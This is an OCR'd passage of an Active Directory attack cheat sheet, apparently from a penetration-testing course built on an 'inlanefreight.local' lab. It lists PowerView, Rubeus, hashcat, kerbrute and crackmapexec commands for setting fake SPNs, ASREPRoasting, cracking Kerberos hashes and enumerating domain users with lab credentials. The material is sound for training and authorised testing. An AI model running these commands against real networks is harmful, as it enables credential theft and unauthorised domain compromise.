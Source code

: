     PowerView tool used to view the members of a specific security group (`Help Desk Level 1`) and output only the username of each member (`Select MemberName`) of the group from a Windows-based host.

`Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose`

    PowerView tool used create a fake `Service Principal Name` given a sepecift user (`adunn`) from a Windows-based host.

`Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose`

    PowerView tool used to remove the fake `Service Principal Name` created during the attack from a Windows-based host.

`Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose`

    PowerView tool used to remove a specific user (`damundsent`) from a specific security group (`Help Desk Level 1`) from a Windows-based host.

`ConvertFrom-SddlString`

    PowerShell cmd-let used to covert an `SDDL string` into a readable format. Performed from a Windows-based host.

ASREPRoasting

`Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl`

    PowerView based tool used to search for the `DONT_REQ_PREAUTH` value across in user accounts in a target Windows domain. Performed from a Windows-based host.

`.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat`

    Uses `Rubeus` to perform an `ASEP Roasting attack` and formats the output for `Hashcat`. Performed from a Windows-based host.

`hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt`

    Uses `Hashcat` to attempt to crack the captured hash using a wordlist (`rockyou.txt`). Performed from a Linux-based host.

`kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt`

    Enumerates users in a target Windows domain and automatically retrieves the `AS` for any users found that don't require Kerberos pre-authentication. Performed from a Linux-based host.

Credentialed Enumeration

`xfreerdp /u:forend@inlanefreight.local /p:Klmcargo2 /v:172.16.5.25`

    Connects to a Windows target using valid credentials. Performed from a Linux-based host.

`sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users`

    Authenticates with a Windows target over `smb` using valid credentials and attempts to discover more users (`--users`) in a target Windows domain. Performed from a Linux-based host.

`sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups`

    Authenticates with a Windows target over `smb` using valid credentials and attempts to discover groups (`--groups`) in a target Windows domain. Performed from a Linux-based host.
